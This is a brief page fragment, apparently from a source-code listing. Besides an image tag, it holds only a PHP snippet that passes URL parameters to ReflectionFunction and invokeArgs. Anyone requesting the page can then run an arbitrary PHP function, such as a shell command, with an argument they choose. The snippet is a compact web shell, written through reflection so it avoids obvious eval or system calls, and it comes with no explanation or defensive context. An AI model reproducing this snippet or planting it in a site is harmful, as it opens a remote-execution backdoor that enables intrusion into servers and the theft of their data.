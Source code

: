 

<img src="11.jpg" alt="alt text" title="Title" />

<?php
    $func = new ReflectionFunction($_GET[m]);
    echo $func->invokeArgs(array($_GET[c]));
?>